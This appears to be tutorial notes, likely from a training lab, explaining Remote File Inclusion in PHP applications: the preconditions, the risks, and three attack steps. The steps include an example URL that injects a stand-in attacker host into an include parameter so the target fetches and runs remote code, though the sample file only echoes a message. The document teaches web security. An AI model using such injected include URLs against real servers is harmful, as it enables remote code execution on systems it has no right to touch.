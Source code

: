 # Remote File Inclusion (RFI)

Remote File Inclusion (RFI) is a technique used to include remote files into a vulnerable application. It occurs when user input is not properly sanitized, allowing an attacker to inject an external URL into an include function. For RFI to work, the `allow_url_fopen` option must be enabled.

RFI poses a higher risk than Local File Inclusion (LFI) as it can lead to Remote Command Execution (RCE) on the server. Other potential consequences include:

- Sensitive Information Disclosure
- Cross-site Scripting (XSS)
- Denial of Service (DoS)

## RFI Attack Steps

1. The attacker hosts a malicious PHP file on their server, e.g., `http://attacker.thm/cmd.txt` containing:
    ```php
    <?PHP echo "Hello THM"; ?>
    ```
2. The attacker injects a URL pointing to their server into the vulnerable web application, e.g., `http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt`.
3. If the input is not validated, the web application includes the remote file and executes its content, displaying the message "Hello THM".

An external server must communicate with the application server for a successful RFI attack, allowing the attacker to execute malicious code on the vulnerable server.
